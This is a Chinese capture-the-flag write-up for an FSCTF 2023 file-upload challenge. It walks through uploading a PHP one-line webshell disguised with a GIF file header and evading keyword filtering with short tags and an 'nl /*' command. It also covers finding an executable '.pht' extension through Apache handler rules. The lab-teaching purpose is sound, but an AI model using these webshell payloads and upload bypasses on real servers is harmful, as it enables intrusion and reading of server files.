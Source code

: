 ## 基本信息

- 题目名称： [FSCTF 2023]是兄弟，就来传你の🐎！
- 题目链接： https://www.nssctf.cn/problem/4561
- 考点清单： 文件上传，文件头绕过
- 工具清单： Yakit
- payloads： 一句话木马

## 一、看到什么

1. 一个文件上传界面，可以上传文件

## 二、想到什么解题思路

1. 使用各种方法上传一个包含一句话木马的php文件，包括修改文件后缀名，MIME绕过等

## 三、尝试过程和结果记录

1. 将修改了后缀为jpg的一句话木马`<?php @eval($_POST['cmd']);?>`上传，提示“File is not an image”，在Yakit中查看上传的文件记录，右键发送到Web Fuzzer，以便后面的修改操作
    ![alt text](<images/[FSCTF 2023]是兄弟，就来传你の🐎！-upload_jpg.jpg>)

2. 想要将一个文件伪装成图片文件，使用MIME类型绕过还不够，还需要将文件头伪装成图片文件的文件头，这样才能成功上传，常见的文件头如下：
    - GIF89a：GIF文件头
    - JFIF：JPEG文件头
    - BM：BMP文件头

    这里我们可以使用GIF的文件头，此时木马的内容如下：
    ```php
    GIF89A<?php
    @eval($_POST['cmd']);
    ```
    ![alt text](<images/[FSCTF 2023]是兄弟，就来传你の🐎！-get_out_hacker.jpg>)

    响应信息显示为“get out hacker!!!”，这表明文件内容中可能包含某些敏感关键字，触发了WAF（Web应用防火墙）的防护机制，需要进一步排查和修改。可能触发WAF的关键字包括`<?php`和`eval`。先去除php这个关键词，发现可以成功上传，但是提示文件过长，需要控制在15个长度内
    
    ![alt text](<images/[FSCTF 2023]是兄弟，就来传你の🐎！-without_php.jpg>)
    
    尝试将`<?php`替换为`<?= `，`<?= `的意思是`<?php echo`的短标签，类似的短标签包括：
    - **`<?= ... ?>`**：简写 `<?php echo ...; ?>`，PHP 5.4+ 默认支持。  
    - **`<? ... ?>`**：`<?php ... ?>`短标签，需 `short_open_tag` 启用，不推荐使用。  
    - **`<% ... %>`**：ASP风格标签，需 `asp_tags` 启用，PHP 7.0+ 已移除。  
    - **`<%= ... %>`**：ASP风格简写 `<?php echo ...; ?>`，PHP 7.0+ 已移除。  

    使用短标签可以缩短长度，但是还是不够。首部的文件头`GIF89A`也可以缩短，使用`GIF`即可。现在我们需要解决的问题是如何打印出文件内容。而在php中最短的打印根目录下的文件内容的方式是`nl /*`，`nl`的功能是为文件内容添加行号并输出，`nl /*`的意思是把所有文件都打印出来。

3. 现在上传时jpg后缀名的文件，默认是无法解析执行的。这里可以使用Yakit爆破字典来测试出可以使用的后缀名。最终，我们发现`pht`后缀名可以成功上传

    **为什么可以使用 `.pht` 扩展名？**  
    在 Apache 的默认配置中，`.pht` 扩展名被识别为 PHP 可执行文件。具体配置规则如下：
    ```apache
    #/etc/apache2/mods-enabled/php5.conf
    <FilesMatch ".+\.ph(p[345]?|t|tml)$">
        SetHandler application/x-httpd-php
    </FilesMatch>
    ```
    该正则表达式匹配 `.php3`、`.pht`、`.phtml` 等后缀，并设置对应的 PHP 处理器（详见 [相关讨论](https://github.com/monstra-cms/monstra/issues/429)）。
    
    ![alt text](<images/[FSCTF 2023]是兄弟，就来传你の🐎！-upload_pht.jpg>)

4. 访问上传成功的文件路径，得到flag
    ![alt text](<images/[FSCTF 2023]是兄弟，就来传你の🐎！-flag.jpg>)

## 四、总结与反思

- 文件伪装方法：仅修改后缀为jpg无法绕过图片检测，需进一步伪装文件头和内容。
- Apache 扩展名特性：利用 `.pht` 等冷门后缀绕过限制，需熟悉服务器配置文件规则。
- 使用Yakit的爆破字典功能，可以快速找到可以上传的文件后缀名，还可以使用到其他白名单绕过的场景中。